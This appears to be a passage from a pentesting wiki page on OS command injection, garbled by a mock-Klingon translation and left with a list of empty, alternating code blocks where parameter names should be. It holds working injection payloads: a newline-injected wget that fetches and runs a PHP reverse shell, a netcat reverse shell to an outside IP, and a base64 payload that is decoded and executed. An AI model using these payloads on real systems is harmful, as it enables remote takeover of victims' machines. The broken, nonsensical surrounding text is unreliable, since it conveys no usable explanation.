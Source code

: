 If you are trying to execute **arbitrary commands inside a linux machine** you will be interested to read about this **Bypasses:**

{% content-ref url="../linux-hardening/useful-linux-commands/bypass-bash-restrictions.md" %}
[bypass-bash-restrictions.md](../linux-hardening/useful-linux-commands/bypass-bash-restrictions.md)
{% endcontent-ref %}

### **ghItlh**
```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80
vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay
```
### Parameters

**Qa'Hom**

ngoD 25 parameters 'ej vItlhutlhlaH code injection 'ej similar RCE vulnerabilities (from [link](https://twitter.com/trbughunters/status/1283133356922884096)):

```markdown
```

**HTML**

```html
```

**Qa'Hom**

```markdown
```

**HTML**

```html
```

**Qa'Hom**

```markdown
```

**HTML**

```html
```

**Qa'Hom**

```markdown
```

**HTML**

```html
```

**Qa'Hom**

```markdown
```

